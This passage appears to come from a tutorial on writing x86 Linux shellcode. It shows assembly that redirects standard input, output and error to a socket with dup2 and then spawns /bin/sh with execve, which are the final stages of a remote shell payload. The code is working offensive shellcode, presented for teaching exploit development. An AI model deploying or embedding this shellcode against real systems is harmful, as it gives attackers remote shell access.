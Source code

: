 <a href="../assets/images/stack_3.png" ><img src = "../assets/images/stack_3.png" width="700px" height="360px"></a>

## Redirection ##

Now we redirect the 3 outputs to the socktfd via the system call dup2.

```c
	xchg ebx, eax

	xor ecx, ecx
	mov cl, 0x2
_:
	mov al, 0x3f
	int 0x80
	dec ecx
	jns _

```

## Shell execution ##

We are going to use execve, int execve(const char *filename, char *const argv[], char *const envp[]) in order to launch a shell.
It will be written as execve("/bin/sh", NULL, NULL).
Then, the shell(/bin/sh) is executed once the connection is made.

```c
	xor ecx,ecx		; ecx = 0
	mul ecx			; eax = edx =ecx = 0
	push eax		; push 0 onto the stack
	push 0x68732f2f		; push //bin/sh
	push 0x6e69622f
	mov ebx, esp		; save esp into ebx
	mov al, 0xb		
	int 0x80		; make the syscall execve("/bin/sh", NULL, NULL)	
```
